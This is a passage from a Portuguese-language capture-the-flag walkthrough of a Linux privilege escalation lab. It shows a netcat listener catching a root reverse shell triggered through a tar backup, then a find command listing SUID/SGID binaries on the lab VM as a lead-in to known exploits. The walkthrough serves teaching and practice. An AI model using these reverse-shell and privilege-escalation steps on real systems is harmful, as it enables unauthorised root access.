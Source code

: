 Dessa forma o arquivo `backup.tar.gz` será compactado e o arquivo `shell.elf` será executado.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/linuxprivesc                                                                                      08:24:36
╰──➤ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.84.63] 38198
whoami
root
```
Para finalizar vamos remover os arquivos criados, sair do shell elevado e clicar no botão `Complete`:

---

## **<a id="11"> • SUID / SGID Executables - Known Exploits.</a>**

Vamos procurar todos os executáveis `SUID/SGID` na VM Debian:   

```bash
user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwsr-sr-x 1 root root 926536 Mar  3 06:29 /tmp/rootbash
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```

